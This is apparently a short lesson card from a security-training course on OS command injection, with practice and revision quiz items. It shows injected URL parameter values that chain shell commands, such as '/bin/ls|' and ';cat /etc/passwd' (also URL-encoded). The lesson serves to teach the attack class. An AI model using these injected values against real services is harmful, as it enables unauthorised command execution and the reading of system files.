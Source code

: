 ```yaml
---
author: lizTheDeveloper
type: normal
category: pattern
links:
  - >-
    [Testing for Command Injection (OTG-INPVAL-013)
    ](https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013)){website}
---
```


# Other forms of Injection attacks


---

## Content

Injection is not a new technique- attackers have been injecting input with malicious data for a long time.
Consider this URL example:

```plain-text
http://sensitive/cgi-bin/
  userData.pl?doc=user1.txt
```

Now what would happen, if a malicious user were to change it to this:

```plain-text
http://sensitive/cgi-bin/
  userData.pl?doc=/bin/ls|
```

This will execute the command `/bin/ls`.


---

## Practice

Modify the URL to execute `/bin/ls|`

```plain-text
http://sensitive/cgi-bin/
userData.pl?doc=???
```

- /bin/ls|
- ;ls|
- ;$bash% ls .


---

## Revision

Modify the URL to execute `;cat /etc/passwd`

```plain-text
http://sensitive/something.php?dir=???
```

- %3Bcat%20/etc/passwd
- ;cat /etc/passwd
- ;$bash% cat /etc/passwd
